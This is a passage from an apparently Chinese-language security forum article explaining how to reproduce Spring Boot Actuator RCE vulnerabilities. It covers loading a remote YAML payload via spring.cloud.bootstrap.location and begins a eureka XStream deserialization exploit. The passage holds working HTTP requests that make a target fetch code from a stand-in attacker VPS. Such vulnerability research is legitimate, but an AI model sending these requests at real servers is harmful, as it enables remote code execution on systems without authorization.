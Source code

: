 ```php
spring 2.x
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/yaml.payload.yml"}
```

3. 刷新配置，触发代码执行。

```php
spring 1.x
POST /refresh

Content-Type: application/x-www-form-urlencoded
```

```php
spring 2.x
POST /actuator/refresh

Content-Type: application/json
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-96876f59cae22641b6edcc5a325c193639e1f1dd.png)

### 2.2.4 漏洞原理

通过设置`spring.cloud.bootstrap.location` 引入外部链接，访问`refresh`接口触发rce。

2.3 eureka xstream deserialization RCE
--------------------------------------

### 2.3.1 影响版本

```php
eureka-client<1.8.7
```

### 2.3.2 利用条件

- `/env` 接口可以POST访问；
- `/refresh` 接口可以POST刷新配置；
- 可以访问外网。

### 2.3.3 漏洞复现并开启监听

1. 架设xstream网站；  
    ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-e39a08417bb8cb1b2c910822999f4596b644bdfd.png)
2. 访问`/env`设置eureka.client.serviceUrl.defaultZone 属性；

```php
spring 1.x
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example
```
